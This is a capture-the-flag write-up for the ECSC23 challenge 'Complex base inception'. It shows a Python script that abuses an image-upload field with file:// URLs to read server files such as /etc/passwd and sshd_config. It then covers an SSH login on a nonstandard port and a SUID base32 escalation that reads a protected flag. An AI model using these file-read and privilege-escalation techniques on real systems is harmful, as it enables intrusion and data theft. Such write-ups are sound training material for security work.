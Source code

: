 # Complex base inception

We get an URL to a minimalistic website with image upload functionality. Our task is to login via SSH, and we are provided a base64-encoded password: `L0ng4ndStr0ngPass1sTheBaseSomeW3irdTxt`

After inspecting client side code and requests, we see that images are base64 encoded, and then passed to the server as form data - `image=data:image/png;base64,...`

This hints us that there we might pass other URL formats to the /upload path. Indeed, that's right. We gain the server's IP address by passing `https://webhook.site/...` as image - `38.60.249.147`. But that's not everything... `ssh root@38.60.249.147` doesn't just work.

Another idea is to try path traversal with `file:///` protocol. I made a helper script to retrieve files:

```py
import requests
import sys
import re
import base64

file = sys.argv[1]

s = requests.Session()

s.get('https://complex-base-inception.ecsc23.hack.cert.pl/')

r = s.post('https://complex-base-inception.ecsc23.hack.cert.pl/upload/', data={'image': f'file://{file}'})
r = s.get('https://complex-base-inception.ecsc23.hack.cert.pl/gallery/')

match = re.search(r'base64,(.+)"', r.text, re.M|re.I)

if match is None:
    print('Error')
    print(r.text)
    exit()

text = base64.b64decode(match.group(1).encode()).decode()
print(text)
```

Let's find some interesting files.
- in `/etc/passwd` we see a suspicous `base64` user
- in `/etc/ssh/sshd_config` we see that SSH port has been changed to 64 - very cool base64 reference

So, we login to `ssh base64@38.60.249.147 -p64`

In our home folder we see our flag file - flag.b64! But we don't have access to it...

Let's find binaries with suid on the system.

```sh
find / -perm -u=s -type f 2>/dev/null
```

`/usr/bin/base32` has it! Another cool reference.

Let's retrieve the flag by using
```sh
/bin/base32 flag.b64 | /bin/base32 -d | base64 -d
```
and profit

`ecsc23{some_unguessable_text_and_some_salt_dtcpkhaa}`

